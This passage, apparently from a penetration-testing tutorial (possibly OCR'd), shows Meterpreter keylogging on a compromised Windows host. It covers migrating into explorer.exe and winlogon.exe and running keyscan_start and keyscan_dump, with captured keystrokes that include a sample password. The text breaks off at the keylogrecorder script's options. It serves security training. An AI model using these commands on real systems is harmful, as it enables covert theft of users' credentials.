    For example, if we want to log credentials typed when the user unlocks the screen we will have to attach the session to the `winlogon.exe` process (which runs on SYSTEM).

    On the other side, if we want to dump keystrokes while the user uses applications and so on, we will have to attach the process `explorer.exe` (which runs on user level).

  Let us see how the 2 script works:
  - `keyscan_start`, `keystart_dump`, `winlogon.exe`
    The first script we are going to use is `keystart_scan`.
    Notice that we already migrated in `explorer.exe`
      ```
      meterpreter > getpid
      Current pid: 3012
      meterpreter > keyscan_start
      Starting the keystroke sniffer...
      meterpreter >
      ```
      Once the sniffer is running we just have to wait for the user to type something on the keyboard.

    Notice that the keystrokes will not be automatically printed on the screen. Instead we have to run `keyscan_dump` to see them.
      ```
      meterpreter > keyscan_dump
      Dumping captured keystrokes...
      bank of america <Return> elstarget <Tab> MyStringPwd23454_ <Return>
      ```

      As we can see, it seems the user typed `bank of america` and then some credentials. While the sniffer is running, we can dump the keystrokes by simply executing `keyscan_dump`. To stop the sniffer we just need to run `keyscan_stop`


    Let's now migrate to `winlogon.exe` and try to dump the user login credentials.
      ```
      PID   PPID  Name          Arch  Session   User                  Path
      ---   ----  ----          ----  -------   ----                  ----
      500   412   winlogon.exe  x64   1         NT AUTHORITY\SYSTEM   C:\Windows\syst

      meterpreter > getpid
      Current pid: 500
      meterpreter > keyscan_start
      Starting the keystroke sniffer...
      meterpreter > keyscan_dump
      Dumping captured keystrokes...

      meterpreter > keyscan_dump
      Dumping captured keystrokes...

      meterpreter > keyscan_dump
      Dumping captured keystrokes...
       <Ctrl>  <LCtrl>  <Insert>  <Ctrl>  <LCtrl>  <Alt>  <LMenu>  <Delete> els <Return>
      meterpreter >
      ```

  - `keylogrecorder`
    The next script we want to use is `keylogrecorder`:
      ```
      meterpreter > run keylogrecorder -h
      Keylogger Recorder Meterpreter Script
      This script will start the Meterpreter Keylogger and save all keys in a log file for later analysis. To stop capture hit Ctrl-C
      Usage:
      OPTIONS:
